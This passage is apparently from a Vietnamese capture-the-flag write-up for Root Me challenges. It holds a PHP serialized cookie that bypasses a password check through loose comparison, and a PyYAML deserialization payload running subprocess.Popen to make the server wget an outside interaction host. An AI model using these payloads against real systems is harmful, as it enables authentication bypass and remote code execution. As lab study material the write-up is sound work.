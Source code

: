 Ứng dụng vẫn còn check cả password. Nhưng ở đây là lại so sánh `==` nên em có thể bypass so sánh chuỗi password với giá trị boolean True:

```
a:2:{s:5:"login";s:5:"guest";s:8:"password";b:1;}
```

Thêm cookie trên vào trình duyệt và load lại trang, và thế là em đã có flag:

![](https://hackmd.io/_uploads/ByxsGwUEh.png)



## Root Me/Yaml - Deserialization

![](https://hackmd.io/_uploads/SJF54DIEn.png)

Link to chall: http://challenge01.root-me.org:59071/eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg

### Phân tích

YAML là viết tắt của Yet Another Markup Language. Wikipedia định nghĩa YAML là “ngôn ngữ tuần tự hóa dữ liệu mà con người có thể đọc được. Nó thường được sử dụng cho các tệp cấu hình và trong các ứng dụng lưu trữ hoặc truyền dữ liệu.” Nó sử dụng cả hai kiểu thụt lề kiểu Python để biểu thị lồng nhau và một định dạng nhỏ gọn hơn sử dụng `[]` cho list và `{}` cho maps.

Ví dụ:
```
{

"name": "Manish",

"age": 12,

"skills": ["programming", "soft skills"]

}
```

Sau khi được serialize:
```
name: Manish

age: 12

skills:

- programming

- soft skills
```

Sau khi tham khảo vài bài trên mạng em đã có payload sau (sử dụng Popen CVE-2017-18342):

```
yaml: !!python/object/apply:subprocess.Popen
- !!python/tuple
  - wget
  - https://chc63h62vtc0000rg61ggesdb3yyyyyyb.oast.fun
```
